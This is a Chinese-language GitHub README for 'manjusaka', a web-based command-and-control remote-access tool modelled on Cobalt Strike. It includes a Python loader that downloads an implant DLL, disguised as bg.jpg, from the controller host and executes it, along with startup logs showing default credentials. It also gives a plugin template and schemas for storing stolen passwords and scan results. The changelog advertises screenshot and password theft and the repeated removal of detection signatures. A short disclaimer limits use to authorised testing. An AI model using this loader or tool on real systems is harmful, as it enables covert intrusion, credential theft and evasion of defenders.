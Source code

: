 
# 免责声明 
本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。



# manjusaka
牛屎花  一款基于WEB界面的仿CobaltStrike C2远控 

##系统架构： ![](https://github.com/YDHCUI/manjusaka/blob/mainimages/1.jpg?raw=true)

## 使用方法
```bash
[root@devops nps]# ./manjusaka
[NPS] 2022/09/14 15:57:21 初始用户: manjusaka  密码: ZbFCa2L2LRd5
[NPS] 2022/09/14 15:57:21 创建项目: 公共项目 没有归属的npc放在这个项目里面
[NPS] 2022/09/14 15:57:21 监听项目路由: VHOS5vqN
[NPS] 2022/09/14 15:57:21 NPS监听地址 :3200
[NPS] 2022/09/14 15:57:21 NPU后台地址 : manjusaka
[NPS] 2022/09/14 15:57:21 NPC监听地址 :801
[NPS] 2022/09/14 15:57:21 NPC交互路由 : /:target/favicon.ico
[NPS] 2022/09/14 15:57:21 NPC下载路由 : /:target/assert/:sys/bg.jpg
[NPS] 2022/09/14 15:57:21 NPC文件路由 : /images/:fid/logo.png
```
则NPS访问地址为  http://192.168.93.217:3200/manjusaka 


1、创建项目，默认有一个公共项目，选择当前项目后 可在回传结果里面查看当前项目回传的信息

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/1.jpg?raw=true)


2、根据项目 生成npc 可以直接使用exe或elf格式的npc。也可以使用其它语言加载npc母体 比如使用python加载npc
 
```python
import requests
from ctypes import cdll

res = requests.get("http://192.168.93.217:801/bq1iFEP2/assert/dll/bg.jpg")
with open("a.dll","wb") as f:
    f.write(res.content)

dll = cdll.LoadLibrary("a.dll")
dll.main()

```


![](https://github.com/YDHCUI/manjusaka/blob/mainimages/2.jpg?raw=true)

3、npc上线，点选中该npc即可对其进行操作

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/3.jpg?raw=true)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/4.jpg?raw=true)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/5.jpg?raw=true)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/6.jpg?raw=true)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/7.jpg?raw=true)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/8.jpg?raw=true)


4、插件系统 生成dll/so插件, 以plug_name_nps.dll格式命名放到plugins文件夹下面 即可动态调用
插件开发示例, main传入插件运行参数 传出返回的内容值 
```rust
/* 
//./Cargo.toml
[lib]
path = "src/lib.rs"
crate-type = ["cdylib"]
*/

//src/lib.rs

use std::ffi::CStr;
use std::ffi::CString;
use std::os::raw::c_char;

#[no_mangle]
pub unsafe extern "C" fn main(args: *const c_char) -> *const c_char { 
    let r_str = CStr::from_ptr(args).to_str().unwrap();

    println!("plugin load args: {}", r_str);
    let c_str = format!("plugin return {}",r_str);

    CString::new(c_str).expect("CString failed").into_raw()
}

```
返回值匹配到如下protobuf格式后后将结果写入数据库

```protobuf
syntax = "proto3";

message PassResult{
    string username = 1;
    string password = 2;
    string passtype = 3;
    string passfrom = 4;
}

message PassScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}

message PortResult{
    string host = 1;
    string port = 2;
    string proto = 3;
    string version = 4;
}
message PortScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}
message HttpResult{
    string proto = 1;
    string host = 2;
    string port = 3;
    string title = 4;
    string note = 5;
}
message HttpScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}

```

 
## 更新

### v0.5
1、修复安全漏洞

2、开放NPC配置修改功能

3、上传文件流程优化

4、增加动态插件功能，可拓展更多功能 

5、去除特征、修复bug 


### v0.4
1、随机key 

2、去除特征、修复bug 

### v0.3
1、实现截屏、密码获取功能。(仅window) 

2、修复cmd界面不能黏贴的bug。 

3、修复项目不能暂停的bug。 

4、自动创建data文件夹。 


### v0.2
1、修改网络协议使流量加密。

2、加入本地文件上传下载功能。

3、修复shell界面位移bug。

### v0.1
1、实现基础远控功能。


## 交流
https://discord.gg/YMqeN5Qyk4
